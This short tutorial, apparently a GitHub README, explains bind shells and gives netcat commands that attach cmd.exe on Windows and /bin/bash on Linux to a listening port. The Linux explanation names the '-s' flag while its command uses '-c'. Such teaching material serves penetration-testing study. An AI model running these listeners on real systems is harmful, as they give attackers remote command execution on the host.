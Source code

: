 
## **Intro to Bind Shell**

A bind shell is a sort of setup where remote consoles are established with other computers over the network. In Bind shell, an attacker launches a service on the target computer, to which the attacker can connect. In a bind shell, an attacker can connect to the target computer and execute commands on the target computer. To launch a bind shell, the attacker must have the IP address of the victim to access the target computer.


> Basically: A bind shell is a type of remote shell where the attacker connects to a listener on the target system.


---
# **Setup a Bind Shell:**

On a windows system:
>`-e` used to specify a program to be executed when anyone connect to this listener... 

	nc.exe -nvlp 7777 -e cmd.exe



On a Linux system:
> `-s` Used to specify a shell to be executed when anyone connect to this Listener...

	nc -nvlp 1234 -c /bin/bash
